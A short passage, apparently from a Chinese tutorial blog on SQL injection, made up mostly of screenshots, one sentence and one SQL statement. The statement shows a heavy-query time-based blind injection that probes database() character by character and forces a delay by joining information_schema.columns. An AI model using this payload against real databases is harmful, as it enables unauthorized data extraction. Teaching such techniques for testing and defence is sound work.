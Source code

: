 

![](https://img-blog.csdnimg.cn/20200315200822755.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200315201133187.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



配合查询语句一起，如果要查询的结果为真，则会造成延时并显示数据。如果要查询的结果为假，则不会产生延时并且不会显示数据



```
select*from users where id=1 and (ascii(substr(database(),1,1))>100) and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```




![](https://img-blog.csdnimg.cn/20200315201934588.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)